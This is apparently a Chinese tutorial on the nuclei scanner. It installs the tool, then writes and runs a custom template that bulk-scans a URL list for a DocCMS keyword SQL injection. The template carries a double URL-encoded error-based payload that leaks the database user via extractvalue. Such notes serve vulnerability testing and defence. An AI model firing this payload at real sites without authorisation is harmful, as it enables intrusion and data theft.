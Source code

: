 - [下载安装](#下载安装)
- [实验一：批量检测](#实验一批量检测)

工具定位：漏洞扫描，自定义POC

## 下载安装
官网地址：https://github.com/projectdiscovery/nuclei
```
# MacOSX
brew install nuclei
# Go
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
```

## 实验一：批量检测
达成条件，向URL发送指定GET参数获取相应返回结果
- 请求URL：`https://example.com/search/index.php`
- 请求参数(GET)：`keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33`
- 获取响应内容包含 `ORDER BY id DESC` 的结果

自定义yaml模板
```yaml
# 必要字段 ID
id: DocCMS-keyword-SQLi
# 必要字段INFO
info:
    name: DocCMS-keyword-SQLi
    author: kylin
    tags: sqli,DocCMS
    reference: http://wiki.peiqi.tech/wiki/cms/DocCMS/DocCMS%20keyword%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html
    severity: high
# HTTP请求数据包
requests:
  # 原始数据包(RAW)内容
  - raw:
    - |
      GET /search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33/ HTTP1.1
      Host: {{Hostname}}
    # 匹配字符串包含 ORDER BY id DESC
    matchers:
      - type: word
        words:
          - "ORDER BY id DESC"
```

至此单个测试成功

![图 4](../../@attachment/images/Security/安全工具/nuclei_1661280665338.png)  

指定 DocCMS-keyword-SQLi.yaml 模板并且指定 urls.txt 文件扫描

```
nuclei -l urls.txt -t DocCMS-keyword-SQLi.yaml
```